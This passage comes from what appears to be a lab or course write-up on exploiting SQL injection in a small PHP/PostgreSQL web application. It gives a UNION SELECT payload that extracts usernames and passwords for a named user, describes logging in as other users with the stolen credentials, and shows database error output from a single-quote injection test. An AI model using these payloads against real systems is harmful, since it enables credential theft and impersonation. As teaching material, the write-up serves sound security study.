        ![alt text](v6e1_2.png)

       Note that we can also obtain information about specific users given there
       names:

       ```SQL
       '  UNION (SELECT  null, null, username||':'||passwd  , null, null FROM account WHERE firstName='Anne');--'
       ```
       Finally, we can obtain any of the users information by using `OFFSET` or
       `array_to_string` as shown previously

       After we have the user's credentials we can proceed to logging in and
       posting as them as in step 1.

    3. Alternately, we can make an entry as another user by beginning to exploit
       the inputs within the logged in state of the application:

       1. We start our exploit by using the standard test from `Exploit 1`, entering
          an empty string, `'`,  into any text box of the application. This yields the
          following error:

          >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR:
          >unterminated quoted string at or near "'''" >LINE 1: SELECT * FROM
          >solution WHERE expression=''' ^ in /var/www/fourFours/index.php on line 44
          >
          >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
          >unnamed prepared statement does not exist in >/var/www/fourFours/index.php on line 45
          >
          >Warning: pg_fetch_row() expects parameter 1 to be resource, boolean
          >given in /var/www/fourFours/index.php on line 46
          >
          >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR:
          >unterminated quoted string at or near "''', 1)" LINE 1: ...o solution
          > (value, expression, accountId) values (0, ''', 1) ^ in /var/www/fourFours/index.php on line 47
          >
          >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
          >unnamed prepared statement does not exist in /var/www/fourFours/index.php